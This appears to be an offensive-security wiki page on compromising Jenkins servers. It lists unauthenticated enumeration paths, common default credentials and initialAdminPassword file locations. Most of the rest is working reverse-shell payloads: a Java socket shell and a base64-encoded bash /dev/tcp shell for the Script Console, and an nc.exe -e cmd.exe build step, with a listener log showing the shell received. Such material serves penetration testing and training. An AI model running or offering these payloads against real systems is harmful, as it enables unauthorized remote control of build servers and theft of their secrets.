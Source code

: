 # Jenkins

## Introduction

Jenkins is a free and open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery. It is a server-based system that runs in servlet containers such as Apache Tomcat.

![Jenkins Login.](<../.gitbook/assets/image (15).png>)

## Enumeration

We can obtain a some valuable information without necessarily log in on the server.

### Jenkins Version

Visit the following route to obtain the Jenkins version on the footer page.

```
/oops
/error

Page generated: Sep 27, 2021 12:46:28 PM PDTREST APIJenkins ver. 2.204.1
```

### Users

Without credentials it is possible to obtain some users.

```
/people
/people/
/asynchPeople
/asynchPeople/
/securityRealm/user/admin/search/index?q=
```

## Credentials

There are no default credentials but some times these works.

```
admin:admin
admin:password
admin:jenkins
```

In new versions the password is randomized at installation. We can find the initial password here:

* **Linux**

```
/var/jenkins_home/secrets/initialAdminPassword
/home/jenkins/secrets/initialAdminPassword
/var/lib/jenkins/secrets/initialAdminPassword
/opt/jenkins/secrets/initialAdminPassword
```

* **Windows**

```
C:\Program Files (x86)\Jenkins\secrets\initialAdminPassword
C:\Program Files\Jenkins\secrets\initialAdminPassword
```

## From Admin to Reverse Shell

There are multiple ways in which from administrative privileges in Jenkins you can get a reverse shell.

### Script Console

To obtain a Reverse shell we need to execute **`Manage Jenkins`** on **`Script Console.`**

![Jenking Script Console.](<../.gitbook/assets/image (13).png>)

#### Windows Reverse Shell

```
String host="<IP-ADDR>";
int port=<PORT>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

#### Linux Reverse Shell

First we need to craft the payload.

```
$ echo "bash -c 'bash -i >& /dev/tcp/10.10.10.10/443 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xMC80NDMgMD4mMScK
```

And introduce inside the Grovvy script.

```
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xMC80NDMgMD4mMScK}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

### Freestyle Project

Go on **`New Item`** tab.

![Jenkins Dashboard](<../.gitbook/assets/image (14).png>)

Introduce a name such as **`Access`** and select **`Freestyle Project`** .

![Jenkins Creating a New Item.](<../.gitbook/assets/image (16).png>)

Scroll down until you find the **`Build`** section and add a **`Execute Windows batch command`** as build step.

![Jenkins Execute Windows Batch Command.](<../.gitbook/assets/image (17).png>)

Introduce the reverse shell on the Command window and click **`Save`**.

```
\\10.10.10.10\share\nc.exe -e cmd.exe 10.10.10.10
```

Go to **`Build Now`** section.

![Jenkins Build Now section.](<../.gitbook/assets/image (18).png>)

When the build is executed a new item will be displayed under the **`Build History`**.

![Jenkins Build History.](<../.gitbook/assets/image (19).png>)

At that moment a reverse shell is obtained.

```
$ sudo nc -lvp 443
listening on [any] 443 ...
connect to [10.10.10.11] from (UNKNOWN) [10.10.10.11] 26524
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>    
```

We can also check the console output selecting the **`Built Item #1`** and going to **`Console Output`** section.

![Jenkins Console Output.](<../.gitbook/assets/image (20).png>)
